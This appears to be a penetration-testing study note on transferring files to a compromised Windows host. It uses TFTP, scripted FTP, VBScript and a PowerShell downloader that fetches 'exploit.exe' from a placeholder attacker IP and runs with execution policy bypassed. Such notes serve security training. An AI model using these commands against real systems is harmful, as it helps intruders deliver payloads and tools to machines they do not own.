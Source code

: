 # File Transfers


* Limit the commands on target machine to be non-interactive

## TFTP Transfers

* UDP
  * XP -2003 contained TFTP client by default
* Not ideal
* Mostly non-interactive

`nc -nlvp 443`

`atftpd --daemon --port 69 /tftp`

copy windows version of netcat to /tftp

Invoke tftp client on windows box.

`tftp -i <IP> GET nc.exe`

## FTP

Windows have a default FTP client.  However, the client is interactive.

* supports scripted commands
  * `ftp -s`

Attacker side:
1. Set up FTP side
2. create a file with commands.  will be automatically invoked when pasted into target host
Target side:
1. Paste commands into ftp command line

## VBScript Transfers
Using VBScript
* same concept, use echo to put commands on command line


`cscript wget.vbs <URL>/local_file`


## Powershell Transfers

Use non-interactive commands and paste them on windows CLI

powershell-download

```
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >> wget.ps1
echo $url = "http://<IP>/exploit.exe" >> wget.ps1
echo $file = "new-exploit.exe" >> wget.ps1
echo $webclient.DownloadFile($url,$file) >> wget.ps1
```

Then run powershell:
`powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1`
